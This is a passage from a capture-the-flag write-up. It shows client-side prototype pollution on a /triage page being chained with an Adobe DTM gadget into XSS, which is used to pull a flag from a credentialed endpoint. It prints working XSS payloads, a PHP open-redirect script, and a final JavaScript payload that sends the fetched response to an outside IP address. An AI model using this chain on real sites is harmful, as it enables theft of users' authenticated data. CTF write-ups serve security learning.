<figure><figcaption><p>vulnerable to prototype pollution</p></figcaption></figure>

To debug it, i deploy the container and set the static value for `authsecret` so i can try /triage on my browser.

<figure><figcaption><p>testing prototype pollution</p></figcaption></figure>

Now we have validated that /triage endpoint vulnerable to prototype pollution (client side). Next, we need to find gadget and there are 4 scripts loaded in /triage. `launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js` looks suspicious for me, checking the file and i found that the script originated from `adobedtm`.

<figure><figcaption><p>adobedtm source code</p></figcaption></figure>

On the same [repository](https://github.com/BlackFan/client-side-prototype-pollution/tree/master) where i found payload for prototype pollution i also found the `gadget` for  `Adobe Dynamic Tag Management.`

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>first valid payload</p></figcaption></figure>

<figure><figcaption><p>second valid payload</p></figcaption></figure>

```
http://127.0.0.1/triage?id=1&url=2&report=3&__proto__[SRC]=%3Cimg/src/onerror%3dalert(1)%3E
http://127.0.0.1/triage?id=1&url=2&report=3&__proto__[SRC]=data:,alert(1)//
```

After found valid `XSS`, now we need to construct XSS payload that do below action

* Access `/check_valid_url` endpoint with valid auth secret
  * url value will be our `HTTPS` website with redirect to `http://reward/bounty`
* Response from `/check_valid_url` will be the `flag` and sent it to our server

First, setup website with `redirect` feature and forward it using `ngrok` because ngrok support tunneling through `HTTPS.`



```php
<?php header('Location: '.$_GET["target"]); ?>
```



```
php -S 127.0.0.1:8000
```

<figure><figcaption><p>setup redirect server</p></figcaption></figure>

```
ngrok http 8000
```

<figure><figcaption><p>setup tunneling using ngrok</p></figcaption></figure>

Setup HTTP server to receive flag

```
python3 -m http.server 800
```

<figure><figcaption><p>setup flag receiver</p></figcaption></figure>

Below is my final payload&#x20;

```javascript
(async () => {
  url = 'http://127.0.0.1/check_valid_url?url=https://a0f7-158-140-167-40.ngrok-free.app/?target=http://reward/bounty';
  const rawResponse = await fetch(url, {
    method: 'GET',
    credentials: 'include'
  });
  const content = await rawResponse.text();
  url2 = 'http://23.94.73.203:8000/?flag='
  const rawResponse2 = await fetch(url2 + content, {
    method: 'GET',
  });
})();
```

Encode it using [urlencoder](https://www.urlencoder.org/) and try on /triage.

```
http://127.0.0.1/triage?id=1&url=2&report=3&__proto__[SRC]=data:,%28async%20%28%29%20%3D%3E%20%7B%0A%20%20url%20%3D%20%27http%3A%2F%2F127.0.0.1%2Fcheck_valid_url%3Furl%3Dhttps%3A%2F%2Fa0f7-158-140-167-40.ngrok-free.app%2F%3Ftarget%3Dhttp%3A%2F%2Freward%3A5000%2Fbounty%27%3B%0A%20%20const%20rawResponse%20%3D%20await%20fetch%28url%2C%20%7B%0A%20%20%20%20method%3A%20%27GET%27%2C%0A%20%20%20%20credentials%3A%20%27include%27%0A%20%20%7D%29%3B%0A%20%20const%20content%20%3D%20await%20rawResponse.text%28%29%3B%0A%20%20url2%20%3D%20%27http%3A%2F%2F23.94.73.203%3A8000%2F%3Fflag%3D%27%0A%20%20const%20rawResponse2%20%3D%20await%20fetch%28url2%20%2B%20content%2C%20%7B%0A%20%20%20%20method%3A%20%27GET%27%2C%0A%20%20%7D%29%3B%0A%7D%29%28%29%3B//
```

<figure><figcaption><p>got fake flag</p></figcaption></figure>

Okay got the fake flag, now try it on target but send it through `/report_bug`.

<figure><figcaption><p>put payload on actual page</p></figcaption></figure>

<figure><figcaption><p>sending final exploit</p></figcaption></figure>

<figure><figcaption><p>got real flag</p></figcaption></figure>

Flag: ACSC{y0u\_4ch1eved\_th3\_h1ghest\_r3w4rd\_1n\_th3\_Buggy\_Bounty\_pr0gr4m}
